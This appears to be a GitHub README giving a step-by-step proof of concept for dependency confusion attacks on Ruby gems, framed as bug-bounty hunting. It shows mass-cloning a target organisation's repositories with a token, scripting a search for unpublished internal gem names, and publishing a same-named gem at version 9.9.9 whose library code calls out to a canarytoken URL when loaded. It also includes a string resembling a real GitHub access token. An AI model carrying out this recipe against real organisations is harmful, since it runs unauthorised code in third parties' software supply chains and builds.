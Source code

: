 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/0b65137c-72e8-4003-b4b1-265cd25a37bd"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
```bash
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | awk '{print $2;}' | tr -d '"' | tr -d ",'" | sort -u | xargs -n1 -I{} echo "https://rubygems.org/gems/{}" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    
    ```bash
    Gem::Specification.new do |s|
      s.name        = "<package_name>"
      s.version     = "9.9.9"
      s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
      s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
      s.authors     = ["<Anindya Ghoshal>"]
      s.email       = "<techghoshal@gmail.com>"
      s.files       = ["lib/<package_name>.rb"]
      s.homepage    =
        "https://rubygems.org/gems/<package_name>"
      s.license       = "MIT"
   end
   ```
 - Save this file
 
 ```bash
 $ cd lib
 ```
 - Replaced -
    
    ```bash
    module Techghoshal
       require 'net/http'
       result = Net::HTTP.get(URI.parse('<canarytokens_url>'))
    end
    ```
 - Save this file  
 
 ```bash
 $ cd ..
 ```
 ```bash
 $ gem build <package_name>.gemspec
 ```
- Upload file publicly (https://rubygems.org/)

- Create Accont on rubygems.org
    
 ```bash
 $ gem push <package_name>-9.9.9.gem 
 ```
- Enter your Email: `<email>`
- Enter your username: `<username>`
- Enter your password: `<password>`
    
---
    
<b>Upload IS DONE</b> 😎 
- Must be checking - https://rubygems.org/gems/package_name
- 🎉 Now Bounty Time 💰💰
 
## Connect me
If you have any queries, you can always contact me on  <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>
    
    
